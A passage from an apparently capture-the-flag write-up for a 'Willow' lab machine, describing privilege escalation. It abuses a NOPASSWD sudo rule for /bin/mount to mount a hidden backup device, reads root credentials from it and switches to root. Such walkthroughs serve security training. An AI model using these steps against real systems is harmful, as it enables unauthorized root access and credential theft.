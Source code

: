 **Sudo Permission:**
```
willow@willow-tree:~$ sudo -l
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
```

In `sudo` permission, we can see that we're able to mount anything in `/dev/`.

Let's look at `/dev/` directory to see if there are something's odd:

```
willow@willow-tree:/dev$ ls -lah
[...]
brw-rw----   1 root disk    202,   5 Sep  2 13:02 hidden_backup
[...]
```

`hidden_backup`?? That's definitely not default in Linux. Let's mount that directory in `/tmp/`:

```
willow@willow-tree:/tmp$ mkdir share

willow@willow-tree:/tmp$ sudo /bin/mount /dev/hidden_backup /tmp/share
willow@willow-tree:/tmp$ ls -lah /tmp/share/
[...]
-rw-r--r--  1 root root   42 Jan 30  2020 creds.txt

willow@willow-tree:/tmp$ cat /tmp/share/creds.txt 
root:{Redacted}
willow:{Redacted}
```

Ahh! We found root's credentials! Let's **Switch User** to `root`:

```
willow@willow-tree:/tmp$ su root
Password: 
root@willow-tree:/tmp# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

We're root! :D

# Rooted

```
root@willow-tree:/tmp# cat /root/root.txt
This would be too easy, don't you think? I actually gave you the root flag some time ago.
You've got my password now -- go find your flag!
```
